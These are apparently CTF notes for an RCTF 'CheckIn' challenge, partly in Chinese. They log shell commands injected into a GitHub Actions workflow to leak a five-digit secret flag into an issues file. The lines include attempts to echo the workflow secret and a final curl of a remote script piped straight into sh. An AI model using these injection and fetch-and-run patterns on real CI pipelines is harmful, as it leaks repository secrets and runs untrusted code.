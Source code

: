 # CheckIn

secret.FLAG is like [0-9]{5}

submit flag like RCTF{[0-9]{5}}

if you get secret.FLAG=00000,then submit RCTF{00000}


### 记录

yml文件| 操作 | 结果 | 备注
-------|---------------------------|---------------------------|---------------------------
default| `echo "$user:$issues" >> issues` 			 |issues`:` | - 
add | `echo "flag:$flag" >> issues` | issues`flag:<space>`  | - 
add | `for i in {00000..99999};echo $i`| ![截屏2021-09-16 上午11.32.51.png](https://i.loli.net/2021/09/16/quTz2BdmneDVrLI.png) | 格式错误有空格缩进
add | `echo "secrets:${{ secrets.FLAG }}" >> issues` | build log:`echo "secrets:" >> issues` | unkown.
add | `c=$(for i in {00000..99999};echo "[$i]")&&echo $c >> issues`| build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | `c=$(for i in {00000..99999};echo -e "[$i]")&&echo "$c" >> issues` | build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | `curl -sL https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CTF/MISC/count.sh |sh` | ? | ?